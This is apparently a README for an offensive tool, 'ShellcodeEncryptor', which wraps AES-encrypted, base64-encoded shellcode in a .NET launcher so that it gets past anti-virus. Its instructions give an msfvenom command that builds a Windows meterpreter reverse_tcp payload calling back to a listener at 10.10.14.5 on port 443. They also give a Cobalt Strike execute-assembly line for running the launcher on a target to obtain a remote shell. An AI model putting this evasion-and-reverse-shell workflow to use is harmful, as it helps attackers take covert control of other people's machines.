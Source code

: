 # ShellcodeEncryptor
A simple shell code encryptor/decryptor/executor to bypass anti virus.

**Purpose**
To generate a .Net binary containing base64 encoded, AES encrypted shellcode that will execute on a target, bypassing anti-virus.

If you find the workflow a little cumbersome, feel free to take the code and make something useful of it, but to quote a famous philosopher:
> Life moves pretty fast. If you don't stop and look around once in a while, you could miss it.

**Instructions**

Create a meterpreter payload using `msfvenom`:
```
msfvenom -p windows/meterpreter/reverse_tcp LPORT=443 LHOST=10.10.14.5 -f csharp
```
Copy the byte array and paste it into the shellcode variable in `encryptor.cs`
```
byte[] shellcode = new byte[]
{
... here ...
};
```
Compile it, run it then copy the base64 string. Paste the string into the `shellcodeb64` variable in launcher.cs.
```
string shellcodeb64 = "...here...";
```
Take the resulting executable and run it on the target, for example (Cobalt Strike):
```
execute-assembly ./uploads/launcher.exe
```

Hopefully you will have a meterpreter shell.
